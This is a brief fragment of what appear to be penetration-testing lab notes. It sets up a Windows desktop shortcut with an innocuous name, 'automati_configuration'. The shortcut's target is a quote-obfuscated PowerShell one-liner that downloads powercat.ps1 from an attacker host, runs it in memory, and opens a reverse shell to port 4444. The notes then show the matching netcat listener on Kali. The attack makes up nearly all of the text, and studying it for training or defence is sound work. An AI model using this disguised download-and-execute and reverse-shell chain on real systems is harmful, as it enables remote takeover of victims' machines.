 
Right click on desktop -> Shortcut:
And we enter:
```
powers""hell.exe -c "IEX(New-Object System.Net.We"bClient).Downl"oadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 0.0.0.0 -p 4444 -e powe"rshell"
```

Set name: automati_configuration

Set:
```
kali@kali:~$ nc -nvlp 4444
```